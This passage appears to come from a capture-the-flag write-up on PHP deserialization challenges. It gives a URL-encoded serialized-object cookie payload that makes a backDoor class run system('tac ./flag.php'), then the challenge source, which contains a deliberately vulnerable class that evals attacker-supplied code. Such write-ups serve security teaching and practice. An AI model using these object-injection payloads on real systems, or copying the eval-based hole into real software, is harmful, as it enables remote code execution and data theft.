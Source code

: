 ```php
echo urlencode(serialize($a));
```

payload：

```
get:?username=xxxxxx&password=xxxxxx

cookie:user=O%3A11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A25%3A%22system%28%27tac+.%2Fflag.php%27%29%3B%22%3B%7D%7D
```



## 258 正则

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 21:38:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}
```
